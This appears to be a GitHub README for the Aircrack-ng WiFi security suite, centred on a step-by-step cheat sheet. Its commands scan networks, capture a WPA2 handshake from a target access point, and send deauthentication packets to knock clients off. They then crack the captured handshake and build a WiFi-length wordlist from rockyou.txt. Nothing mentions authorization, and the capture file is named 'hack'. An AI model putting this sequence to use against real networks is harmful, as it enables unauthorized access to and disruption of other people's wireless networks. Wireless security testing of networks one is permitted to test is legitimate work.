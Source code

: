 
[Official Website](https://aircrack-ng.org)

## What is Aircrack-ng

Aircrack-ng is a complete suite of tools to assess WiFi network security.

It focuses on different areas of WiFi security:

* Monitoring: Packet capture and export of data to text files for further processing by third party tools
* Attacking: Replay attacks, deauthentication, fake access points and others via packet injection
* Testing: Checking WiFi cards and driver capabilities (capture and injection)
* Cracking: WEP and WPA PSK (WPA 1 and 2)

All tools are command line which allows for heavy scripting. A lot of GUIs have taken advantage of this feature. It works primarily on Linux but also Windows, macOS, FreeBSD, OpenBSD, NetBSD, as well as Solaris and even eComStation 2.


## Installation

* Pre-Installed on Kali Linux

## Recomended YouTube Videos
* [Cracking WiFi WPA2 Handshake by David Bombal](https://www.youtube.com/watch?v=WfYxrLaqlN8)
* [Cracking Wifi Password Using John The Ripper | JTR 2022](https://www.youtube.com/watch?v=ombsRNYwev0)



## General Information

* As more clients connected in WiFi Network as more likly it is that you can catch Handshake
* As more strong signal / more near to WiFi Accesspoint, as more successfully it is to fetch handshake's

## How to use

**Stop NetworkManager to aviod problems with Aircrack-ng**
`sudo systemctl stop NetworkManager`

**List WiFi-Networks**
`sudo airodump-ng wlan0`

**Try to Fetch Handshake ans Store Handshake**
`sudo airodump-ng -c  6 --bssid  00:00:00:00:00:00 -w /home/parallels/Desktop/wlan/hack wlan0`

**Deauth Clients in Network**
`sudo aireplay-ng  --deauth 10 -a  00:00:00:00:00:00 wlan0`

**Cracking Handshake with Password List**
`aircrack-ng -b 00:00:00:00:00:00 -w  /usr/share/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt Desktop/hack-07.cap`

**Start NetworkManager again. If you still can't connect to your Network, restart OS**
`sudo service network-manager start`





## Cracking Password

**WiFi Passwords has a minimum of 8 characters**
`cat rockyou.txt | sort | uniq | pw-inspector -m 8 -M 63 > rockyou_wifi.txt`